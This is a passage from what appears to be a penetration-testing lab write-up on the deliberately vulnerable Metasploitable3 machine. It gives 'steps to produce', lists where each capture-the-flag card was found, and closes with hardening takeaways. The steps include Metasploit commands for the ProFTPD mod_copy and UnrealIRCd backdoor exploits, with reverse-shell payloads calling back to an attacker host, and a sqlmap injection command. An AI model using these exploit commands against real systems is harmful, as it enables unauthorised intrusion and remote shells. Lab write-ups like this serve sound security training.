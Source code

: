 ### Long-Term (90+ Days)
- Adopt **secure SDLC** practices.  
- Implement continuous vulnerability testing.  
- Develop **Incident Response Playbooks**.

---

## 8. Steps to Produce

### Network Discovery
```bash
nmap -sV -p- -sC 10.0.2.9 -vv

ProFTPD Exploitation
msf6> use exploit/unix/ftp/proftpd_modcopy_exec
msf6> set RHOSTS 10.0.2.9
msf6> set SITEPATH /var/www/html/
msf6> set PAYLOAD cmd/unix/reverse_netcat
msf6> set LHOST 10.0.2.8
msf6> exploit

SQL Injection (Payroll App)
sqlmap -u "http://10.0.2.9/payroll_app.php" --data="user=admin&password=admin&s=OK"

UnrealIRCd Backdoor
msf6> use exploit/unix/irc/unreal_ircd_3281_backdoor
msf6> set RHOSTS 10.0.2.9
msf6> set RPORT 6697
msf6> set PAYLOAD cmd/unix/reverse
msf6> set LHOST 10.0.2.8
msf6> exploit

9. Cards Found
Card	Location / Method
3 of Hearts	/lost+found/3_of_hearts.png (root-only)
5 of Hearts	Drupal /sites/default/files/field/image/ (Base64 in EXIF)
7 of Diamonds	Extracted from ZIP > GIF > QR > decoded hex
8 of Clubs	/home/anakin_skywalker/.../8_of_clubs.png
9 of Diamonds	Mounted ISO inside Kylo Ren’s .secret_files/
10 of Spades	Found in readme_app/images/
10 of Clubs	Extracted hidden file from .wav container
Ace of Clubs	Decoded Base64 in chat_client.js
King of Spades	Decoded Base64 block from ircd.motd
10. Conclusion

Metasploitable3’s configuration demonstrates realistic vulnerabilities seen in legacy systems:

Outdated software and weak credentials enabled multiple exploits.

Despite limited protections, attackers achieved root-level control.

Applying patch management, hardening, and continuous testing would significantly reduce exposure.

Key Takeaways

Patch management is critical.

Remove default accounts.

Implement centralized monitoring.

Enforce least privilege and segmentation.
```